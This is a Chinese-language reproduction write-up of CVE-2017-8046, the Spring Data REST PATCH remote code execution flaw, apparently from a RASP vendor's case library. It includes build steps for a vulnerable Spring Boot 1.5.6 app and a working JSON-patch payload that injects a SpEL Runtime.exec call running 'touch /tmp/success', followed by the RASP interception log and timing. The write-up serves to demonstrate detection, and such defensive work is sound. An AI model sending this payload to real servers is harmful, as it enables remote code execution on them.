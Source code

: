 # CVE-2017-8046

## 漏洞简介

Spring Data REST对PATCH方法处理不当，导致攻击者能够利用JSON数据造成RCE。本质还是因为spring的SPEL解析导致的RCE。

## 影响版本

+ Spring Data REST组件的2.6.9 and 3.0.9之前的版本（不包含2.6.9和3.0.9 ）

+ Spring Boot （如果使用了Spring Data REST模块）的1.5.9 和 2.0 M6之前的版本

## 漏洞复现


### 代码下载编译

jdk版本1.8

+ 可以直接从 [Github上面下载](https://github.com/spring-guides/gs-accessing-data-rest.git)
使用其中的`complete`项目.

修改其中的spring-boot-starter-parent为存在漏洞的版本，本文中采用的是1.5.6.RELEASE的版本:
```xml
<parent>
	<groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>1.5.6.RELEASE</version>
    <relativePath/> <!-- lookup parent from repository -->
</parent>
```
![img.png](../.vuepress/public/images/case/CVE-2017-8046/CVE-2017-8046-code-version-change.png)

+ 进入`complete`项目下执行 

   `mvn clean package`

### 启动工程

+ `java -jar ./target/accessing-data-rest-complete-0.0.1-SNAPSHOT.jar`

+ 验证工程是否启动成功
  访问 [http://localhost:8080](http://localhost:8080),如果出现以下的界面则说明搭建成功

  
![img.png](../.vuepress/public/images/case/CVE-2017-8046/CVE-2017-8046-web-start-success.png)

### 发起正常请求

+ 通过POST方法添加一个用户

![img.png](../.vuepress/public/images/case/CVE-2017-8046/CVE-2017-8046-web-request-add-people.png)
```shell
curl --location --request POST 'http://localhost:8080/people' \
--header 'Content-Type: application/json' \
--data-raw '{"firstName":"san","lastName":"zhang"}'
```

### 发起攻击请求

+ 通过`PATCH`方法更新people1的lastName信息。我们需要发送如下的payload：

![img.png](../.vuepress/public/images/case/CVE-2017-8046/CVE-2017-8046-web-request-change-people.png)

请求方法：`PATCH`

请求头：Content-Type:application/json-patch+json

请求URL：http://localhost:8080/people/1

请求Body
```json
[
    {
        "op": "replace",
        "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastName",
        "value": "vulhub"
    }
]
```

执行命令： `touch /tmp/success`

注意：`Content-Type:application/json-patch+json`, http 请求方法必须为 `PATCH`

![img.png](../.vuepress/public/images/case/CVE-2017-8046/CVE-2017-8046-request-content-type.png)


+ 攻击生效

 /tmp/success 文件被创建


## RASP防护

安装RASP之后，再次发起攻击请求。

### RASP拦截到的攻击参数和调用栈
```json
{
  "protocol":"HTTP/1.1",
  "tomcat.request.body.time":0.153706,
  "method":"PATCH",
  "remoteHost":"0:0:0:0:0:0:0:1",
  "cmdArray":[
    "touch",
    "/tmp/success"
  ],
  "requestURI":"/people/1",
  "stackTrace":[
    "java.lang.ProcessImpl.start(ProcessImpl.java)",
    "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
    "java.lang.Runtime.exec(Runtime.java:621)",
    "java.lang.Runtime.exec(Runtime.java:451)",
    "java.lang.Runtime.exec(Runtime.java:348)",
    "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
    "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
    "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
    "java.lang.reflect.Method.invoke(Method.java:498)",
    "org.springframework.expression.spel.support.ReflectiveMethodExecutor.execute(ReflectiveMethodExecutor.java:113)",
    "org.springframework.expression.spel.ast.MethodReference.getValueInternal(MethodReference.java:129)",
    "org.springframework.expression.spel.ast.MethodReference.getValueInternal(MethodReference.java:85)",
    "org.springframework.expression.spel.ast.CompoundExpression.getValueRef(CompoundExpression.java:57)",
    "org.springframework.expression.spel.ast.CompoundExpression.setValue(CompoundExpression.java:95)",
    "org.springframework.expression.spel.standard.SpelExpression.setValue(SpelExpression.java:438)",
    "org.springframework.data.rest.webmvc.json.patch.PatchOperation.setValueOnTarget(PatchOperation.java:167)",
    "org.springframework.data.rest.webmvc.json.patch.ReplaceOperation.perform(ReplaceOperation.java:41)",
    "org.springframework.data.rest.webmvc.json.patch.Patch.apply(Patch.java:64)",
    "org.springframework.data.rest.webmvc.config.JsonPatchHandler.applyPatch(JsonPatchHandler.java:91)",
    "org.springframework.data.rest.webmvc.config.JsonPatchHandler.apply(JsonPatchHandler.java:83)",
    "org.springframework.data.rest.webmvc.config.PersistentEntityResourceHandlerMethodArgumentResolver.readPatch(PersistentEntityResourceHandlerMethodArgumentResolver.java:206)",
    "org.springframework.data.rest.webmvc.config.PersistentEntityResourceHandlerMethodArgumentResolver.read(PersistentEntityResourceHandlerMethodArgumentResolver.java:184)",
    "org.springframework.data.rest.webmvc.config.PersistentEntityResourceHandlerMethodArgumentResolver.resolveArgument(PersistentEntityResourceHandlerMethodArgumentResolver.java:141)",
    "org.springframework.web.method.support.HandlerMethodArgumentResolverComposite.resolveArgument(HandlerMethodArgumentResolverComposite.java:121)",
    "org.springframework.web.method.support.InvocableHandlerMethod.getMethodArgumentValues(InvocableHandlerMethod.java:158)",
    "org.springframework.web.method.support.InvocableHandlerMethod.invokeForRequest(InvocableHandlerMethod.java:128)",
    "org.springframework.web.servlet.mvc.method.annotation.ServletInvocableHandlerMethod.invokeAndHandle(ServletInvocableHandlerMethod.java:97)",
    "org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter.invokeHandlerMethod(RequestMappingHandlerAdapter.java:827)",
    "org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter.handleInternal(RequestMappingHandlerAdapter.java:738)",
    "org.springframework.web.servlet.mvc.method.AbstractHandlerMethodAdapter.handle(AbstractHandlerMethodAdapter.java:85)",
    "org.springframework.web.servlet.DispatcherServlet.doDispatch(DispatcherServlet.java:967)",
    "org.springframework.web.servlet.DispatcherServlet.doService(DispatcherServlet.java:901)",
    "org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:970)",
    "org.springframework.web.servlet.FrameworkServlet.service.md(FrameworkServlet.java:843)"
  ],
  "localAddr":"0:0:0:0:0:0:0:1",
  "parameterMap":{

  },
  "parameters":"[\n    {\n        \"op\": \"replace\",\n        \"path\": \"T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastName\",\n        \"value\": \"vulhub\"\n    }\n]\u0000",
  "remoteAddr":"0:0:0:0:0:0:0:1"
}
```
### hook点的检测耗时：

本次攻击请求触发三个hook点，每个hook点的检测耗时如下：

method: tomcat.request.parameter, 耗时: 0.064495 ms

method: tomcat.request.body, 耗时: 0.015883,

method: ProcessImpl.start.before, 耗时: 0.619873 ms

总共耗时：0.7 ms

